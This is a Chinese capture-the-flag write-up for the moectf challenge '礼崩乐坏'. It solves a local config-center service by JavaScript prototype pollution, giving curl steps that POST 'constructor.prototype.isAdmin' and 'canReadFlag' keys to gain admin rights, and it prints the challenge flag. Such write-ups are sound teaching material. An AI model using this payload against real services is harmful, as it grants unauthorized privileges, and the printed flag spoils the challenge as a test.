

# [礼崩乐坏](https://ctf.xidian.edu.cn/games/37/challenges?challenge=1358)
##### 分值：150pts

## 题目描述：
### 原文：
我听闻，从前管束子弟，有家法、有规矩、有祖宗传下来的章法。做父亲的教儿子，做兄长的带弟弟，一代一代，都守着本分。可如今呢？家法松了，规矩淡了，晚辈做什么，长辈也未必看得住。

这就好比写JavaScript，顶层的写法，像祖宗留下的旧宅，格局分明，门是门、窗是窗；可后来的人，图省事、图新潮，把旧宅拆了，东拼西凑搭个棚子，也能住人。祖宗留下的规矩还在，但已经管不着他们了。这样看来，礼法不是没了，是没人肯照着做了。名分还在，人心却散了。

## 分析：
### Javascript 原型链污染

## 解题步骤：
```sh
curl http://127.0.0.1:12345/
```
```log
配置中心
GET  /api/help      查看接口说明
GET  /api/me        查看当前配置
POST /api/profile   提交 JSON 配置
GET  /api/flag      读取审核后的结果
```
```sh
curl http://127.0.0.1:12345/api/help
```
```json
{
  "name": "配置中心",
  "routes": {
    "GET /": "题目描述",
    "GET /api/me": "查看当前用户的配置",
    "POST /api/profile": "提交 JSON 配置",
    "GET /api/flag": "只有审核 isAdmin=true 且 canReadFlag=true 时返回 FLAG"
  }
}
```
```sh
curl http://127.0.0.1:12345/api/me
```
```json
{
  "ok": true,
  "profile": {
    "profile": {
      "nickname": "guest"
    },
    "setting": {
      "mode": "normal"
    }
  },
  "inheritedProbe": {
    "isAdmin": null,
    "canReadFlag": null
  }
}
```
在Javascript中，JSON对象parse完的obj是普通Object对象，obj.constructor.prototype 等价于 Object.prototype，即所有对象的原型。

```sh
curl -X POST http://127.0.0.1:12345/api/profile -H "Content-Type: application/json" -d '{
    "constructor.prototype.isAdmin": true,  
    "constructor.prototype.canReadFlag": true  
}'
```
```json
{
  "ok": true,
  "accepted": [
    "constructor.prototype.isAdmin",
    "constructor.prototype.canReadFlag"
  ],
  "profile": {
    "profile": {
      "nickname": "guest"
    },
    "setting": {
      "mode": "normal"
    }
  },
  "inheritedProbe": {
    "isAdmin": true,
    "canReadFlag": true
  }
}
```
```sh
curl http://127.0.0.1:12345/api/flag
```
```json
{
  "ok": true,
  "flag": "moectf{wh3n_r1t35_f4ll_pr0707yp35_ru13}"
}
```
## Flag
moectf{wh3n_r1t35_f4ll_pr0707yp35_ru13}